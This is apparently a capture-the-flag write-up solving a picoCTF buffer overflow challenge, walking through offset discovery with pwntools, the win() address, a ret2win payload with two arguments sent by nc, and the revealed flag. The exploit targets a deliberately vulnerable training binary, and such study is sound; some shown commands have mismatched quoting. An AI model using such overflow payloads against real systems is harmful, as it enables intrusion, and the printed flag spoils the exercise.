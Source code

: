 # URL
https://play.picoctf.org/practice/challenge/259?category=6&page=2

# Challenge
Author: Sanjay C / Palash Oswal

Description
Control the return address and arguments
Additional details will be available after launching your challenge instance.

# Work:
* To start us off, let's create a pattern
```
from pwn import *
# Generate a cyclic pattern of 200 bytes
pattern = cyclic(200)
print(pattern)
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ab68d565-c115-40ee-8ce4-99b3ff61a1e3" />
* EIP = return address and we can see that's being overrun @ address = 0x62616164
```
>>> from pwn import *
>>> print(cyclic_find(0x62616164))
112 
```
* 112 = our offset
```
pwndbg> print &win
$1 = (<text variable, no debug info> *) 0x8049296 <win> 
```
* Knowing the address of win = 0x8049296
```
python3
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x8049296)
b'\x96\x92\x04\x08'
>>> print(cyclic(200))
```
* Submit this payload:
```
pwngdb> r <<< $echo("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08")
```
<img width="1863" height="753" alt="image" src="https://github.com/user-attachments/assets/8457c79f-e596-4ca2-a64f-23dd69d89f4b" />
* So the command above worked since we are in the win() function now
* Now all we gotta do is pad 4 bytes and add the two arguments
<img width="362" height="185" alt="image" src="https://github.com/user-attachments/assets/2dfec480-3012-45c5-87f1-c19af6956796" />
* We NEED these arguments or else the function won't continue
* The 4 bytes are dummy bytes, those 4 bytes are the saved return address; however, we don't want to return, instead we want to continue forward
```
+--------------------+
|  return address    |  <-- saved EIP (4 bytes)   ← this is where QQQQ goes
+--------------------+
|  arg1              |  <-- first argument
+--------------------+
|  arg2              |  <-- second argument
+--------------------+
```

* 4 bytes = QQQQ
```
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
```
```
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

```
┌──(kali㉿kali)-[~/picoCTF/binaryexploitation]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08QQQQ\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0'" | nc saturn.picoctf.net 64366
Please enter your string: 
�'�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QQQQ
picoCTF{argum3nt5_4_d4yZ_59cd5643}       
```
* WOOHOOOOOOOOOOO WE FOUND THE FLAG!!!!
  
